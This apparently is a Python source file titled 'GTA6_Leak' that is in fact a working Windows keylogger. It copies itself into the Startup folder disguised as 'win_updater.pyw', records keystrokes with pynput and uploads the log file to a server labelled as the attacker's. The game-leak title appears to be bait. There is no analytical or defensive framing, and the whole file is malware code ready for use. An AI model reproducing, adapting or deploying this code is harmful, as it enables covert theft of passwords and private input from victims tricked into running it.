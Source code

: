 # GTA6_Leak

import os
import json
import requests
import shutil
from pynput import keyboard
from pathlib import Path

# -------------- ADD TO STARTUP SECTION --------------
def add_to_startup():
    startup_dir = os.path.join(os.environ['APPDATA'], r"Microsoft\Windows\Start Menu\Programs\Startup")
    script_path = os.path.realpath(_file) 
    target_path = os.path.join(startup_dir, "win_updater.pyw")  # disguise the name

    if not os.path.exists(target_path):
        shutil.copy(script_path, target_path)
        print("[+] Added to startup.")
    else:
        print("[=] Already in startup.")

add_to_startup()

key_list = []
x = False
log_file = 'logs.json'
START_LOGGING = False

# ✅ Update this to your attacker's IP
ATTACKER_SERVER = 'http://192.168.1.71:5000/upload'


def send_logs():
    try:
        with open(log_file, 'rb') as f:
            files = {'logfile': f}
            response = requests.post(ATTACKER_SERVER, files=files)
            print(f"[*] Sent log to attacker. Status code: {response.status_code}")
    except Exception as e:
        print(f"[!] Failed to send logs: {e}")


def update_json_file(key_list):
    with open(log_file, 'wb+') as key_log:
        key_log.write(json.dumps(key_list, indent=4).encode())
    send_logs()


def on_press(key):
    global x, START_LOGGING
    if key == keyboard.Key.f9:
        START_LOGGING = True
        print("[*] Logging activated.")

    if START_LOGGING:
        if not x:
            key_list.append({'Pressed': f'{key}'})
            x = True
        else:
            key_list.append({'Held': f'{key}'})
        update_json_file(key_list)


def on_release(key):
    global x
    if key == keyboard.Key.esc:
        print("[!] ESC pressed — exiting keylogger.")
        os._exit(0)

    if START_LOGGING:
        key_list.append({'Released': f'{key}'})
        update_json_file(key_list)

    x = False


# ✅ Start the keylogger listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
